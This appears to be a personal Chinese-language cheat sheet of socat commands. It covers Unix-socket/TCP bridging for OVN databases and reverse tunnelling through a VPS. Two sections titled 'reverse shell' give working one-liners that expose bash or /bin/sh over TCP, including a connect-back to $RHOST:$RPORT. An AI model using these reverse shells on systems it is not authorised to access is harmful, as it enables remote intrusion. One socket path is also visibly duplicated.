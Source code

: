 http://www.dest-unreach.org/socat/

https://zhuanlan.zhihu.com/p/8601350507

将 Unix Socket 转换为 TCP 连接

socat TCP-LISTEN:65528,fork UNIX-CONNECT:/usr/local/var/run/ovn/ovnnb_db.sock:
socat TCP-LISTEN:端口号,fork UNIX-CONNECT:/usr/local/var/run/ovn//usr/local/var/run/ovn/ovnsb_db.sock:

将 TCP 转换为 Unix Socket
socat TCP-CONNECT:目标地址:端口号 UNIX-CLIENT:/path/to/unix/socket

反弹shell
socat TCP-LISTEN:8080,reuseaddr,fork,max-children=5 EXEC:"bash -i",pty,stderr,setsid,sigint,raw,echo=0,crnl

socat - TCP:服务器IP:8080,setsid,crnl

socat 实现 ssh -r
vps上的客户端
socat -d -d -d tcp-l:80,reuseaddr,bind=0.0.0.0,fork tcp-l:8080,bind=0.0.0.0,reuseaddr,retry=10

lan内的服务器端
socat -d -d -d -v tcp:vpsip:8080,forever,intervall=10,fork tcp:localhost:80

例子：

socat -d -d -d tcp-l:8080,reuseaddr,bind=0.0.0.0,fork tcp-l:80,bind=0.0.0.0,reuseaddr,retry=10
测试： curl -v http://127.0.0.1:8080

本地服务端 被访问
php sapi/webUI/bootstrap.php
socat -d -d -d -v tcp:socat-r.example.com:80,forever,intervall=10,fork tcp:localhost:9502

反弹 shell
远端
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane

本地
socat file:`tty`,raw,echo=0 tcp-listen:12345
